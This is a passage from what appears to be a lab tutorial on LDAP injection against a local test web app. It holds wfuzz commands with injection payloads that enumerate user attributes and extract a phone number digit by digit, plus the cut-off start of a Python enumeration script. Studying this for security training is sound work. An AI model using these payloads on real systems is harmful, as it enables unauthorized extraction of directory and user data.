 To add new users we can use the **ldapadd** tool together with the *.ldif* files we created earlier:

```bash
ldapadd -x -H ldap://localhost -D "cn=admin,dc=example,dc=org" -w admin -f newuser1.ldif
ldapadd -x -H ldap://localhost -D "cn=admin,dc=example,dc=org" -w admin -f newuser2.ldif
ldapadd -x -H ldap://localhost -D "cn=admin,dc=example,dc=org" -w admin -f newuser3.ldif
```

We can discover user attributes with the **wfuzz** tool. In this case we are going to discover the attributes of the user *loki* by hiding the answers that are *500* characters long, which in this case are invalid:

```bash
wfuzz -c --hh=550 -w /usr/share/seclists/Fuzzing/LDAP-openldap-attributes.txt -d 'user_id=loki)(FUZZ=*))%00&password=*&login=1&submit=Submit' http://localhost:8888
```

We can also apply a *range* to discover the *telephoneNumber* field number by number:

```bash
wfuzz -c --hh=550 -z range,0-9 -d 'user_id=loki)(telephoneNumber=FUZZ*))%00&password=*&login=1&submit=Submit' http://localhost:8888
wfuzz -c --hh=550 -z range,0-9 -d 'user_id=loki)(telephoneNumber=6FUZZ*))%00&password=*&login=1&submit=Submit' http://localhost:8888
wfuzz -c --hh=550 -z range,0-9 -d 'user_id=loki)(telephoneNumber=66FUZZ*))%00&password=*&login=1&submit=Submit' http://localhost:8888
wfuzz -c --hh=550 -z range,0-9 -d 'user_id=loki)(telephoneNumber=666FUZZ*))%00&password=*&login=1&submit=Submit' http://localhost:8888
wfuzz -c --hh=550 -z range,0-9 -d 'user_id=loki)(telephoneNumber=6663FUZZ*))%00&password=*&login=1&submit=Submit' http://localhost:8888
```

By using the appropriate dictionary we can thus discover all attribute fields.

Now we are going to use this logic to create a **Python** script that discovers us:
- The first letter of each user
- Using the first letter of each user, we get the full names of all users
- Using the full names of the users, we are going to get an attribute of theirs (in this case the *description* field)

```python
#!/usr/bin/python3

import requests
import time
import sys
import signal

from pwn import *

def def_handler(sig, frame):
    print("\n\n[!] Exiting...\n")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Global variables
main_url = "http://localhost:8888"
# burp = {'http':'http://127.0.0.1:8080'}

def getInitialUsers():
    characters = string.ascii_lowercase
    initial_users = []
    headers = {'Content-Type': 'application/x-www-form-urlencoded'}

    for character in characters:
        post_data = "user_id={}*&password=*&login=1&submit=Submit".format(character)
```
